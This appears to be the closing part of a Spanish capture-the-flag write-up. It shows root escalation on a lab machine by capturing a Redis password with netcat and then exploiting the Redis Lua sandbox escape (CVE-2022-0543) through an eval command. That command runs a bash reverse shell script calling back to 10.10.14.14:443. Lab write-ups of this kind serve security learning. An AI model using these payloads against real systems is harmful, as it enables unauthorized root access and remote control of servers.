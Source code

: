 ```bash
❯ ./redisc_conector_dev
[+] Logging to redis instance using password...

INFO command result:
 i/o timeout
 ```
 Se conecta a nuestro puerto 6379 y podemos ver con que contraseña se esta autenticando.
 ```bash
 ❯ nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46420
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```
Comprobemos que estas credenciales sean correctos.
```bash
dan_smith@shared:/$ redis-cli 
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> 
```
Y la contraseña es correcta, Si nos vamos a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass) y filtramos por redis nos hablan de que podemos llegar a injectar comandos ya que en redis se usa Eval para ejecutar codigo lua.

En este [articulo](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/) explican muy bien de que va la vulnerabilidad y de que forma aprovecharnos de esta.

Creamos un archivo el cual se encargue de enviarnos una ReverShell.
```bash
dan_smith@shared:/dev/shm$ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1" & disown
```
Nos conectamos a redis y ejecutamos los Siguientes comandos.
```bash
 dan_smith@shared:/dev/shm$ redis-cli 
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/rev.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```
Y Por debajo nos llega la consola como root
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.172] 52222
bash: cannot set terminal process group (4527): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# whoami
whoami
root
root@shared:/var/lib/redis# 
```
Gracias por leer!